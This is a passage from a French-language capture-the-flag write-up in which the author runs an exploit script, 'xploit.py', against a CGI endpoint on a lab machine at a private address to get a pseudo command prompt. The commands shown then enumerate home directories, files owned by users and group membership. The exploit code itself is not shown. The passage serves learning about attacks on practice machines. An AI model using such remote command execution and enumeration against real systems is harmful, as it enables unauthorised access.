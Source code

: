 J'ai privilégié cette technique car contrairement à la solution précédente on ne peut pas se débarrasser facilement du firewall qui bloque aussi le trafic sortant (quoique l'on verra plus tard ;-) )  

L'exploit permet d'avoir une simili invite de commande et s'utilise de cette façon :  

```plain
python xploit.py http://192.168.1.63:591/cgi-bin/cat

$ ls -alR /home

/home:
total 16
drwxr-xr-x.  4 root    root    4096 Dec 30 19:20 .
dr-xr-xr-x. 22 root    root    4096 Feb 23 10:45 ..
drwx------   2 apophis apophis 4096 Jan  2 20:12 apophis
drwxrwxrwx.  2 bynarr  bynarr  4096 Feb 23 14:33 bynarr

/home/bynarr:
total 112
drwxrwxrwx. 2 bynarr bynarr  4096 Feb 23 14:33 .
drwxr-xr-x. 4 root   root    4096 Dec 30 19:20 ..
-rw-------. 1 bynarr bynarr     0 Jan 27 19:30 .bash_history
-rw-r--r--. 1 bynarr bynarr    18 Feb 21  2013 .bash_logout
-rw-r--r--. 1 bynarr bynarr   178 Nov 12 14:26 .bash_profile
-rw-r--r--. 1 bynarr bynarr   124 Feb 21  2013 .bashrc
-rwxr-xr-x  1 root   root     368 Jan 27 19:14 lime
-rw-------  1 root   root   10728 Nov 13 11:45 lime.ko
```

L'utilisateur *bynarr* n'est pas très regardant quand aux droits d'accès sur son répertoire personnel.  

```plain
$ find / -user apophis

/mnt
/home/apophis
/var/spool/mail/apophis

$ find / -user bynarr

/home/bynarr
/home/bynarr/.bash_logout
/home/bynarr/.bashrc
/home/bynarr/.bash_profile
/home/bynarr/.bash_history
/tmp/stats
/var/spool/mail/bynarr

$ id bynarr

uid=500(bynarr) gid=501(bynarr) groups=501(bynarr),500(forensic)
```
